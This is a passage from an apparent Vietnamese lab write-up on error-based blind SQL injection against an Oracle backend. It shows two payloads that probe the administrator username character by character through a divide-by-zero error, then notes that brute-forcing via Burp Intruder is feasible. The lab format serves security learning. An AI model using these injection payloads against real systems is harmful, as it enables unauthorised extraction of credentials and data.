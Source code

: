 `' union SELECT CASE WHEN ((select substr(username,1,1) from users where username = 'administrator') = 'a') THEN NULL ELSE to_char(1/0) END FROM dual --`

![Untitled](writeup-media/Untitled%2049.png)

`' union SELECT CASE WHEN ((select substr(username,1,1) from users where username = 'administrator') = 'b') THEN NULL ELSE to_char(1/0) END FROM dual --`

![Untitled](writeup-media/Untitled%2050.png)

Như vậy có thể thấy ta hoàn toàn đủ điều kiện để thực hiện brute-force.

Gửi vào `Intruder` 

![Untitled](writeup-media/Untitled%2051.png)
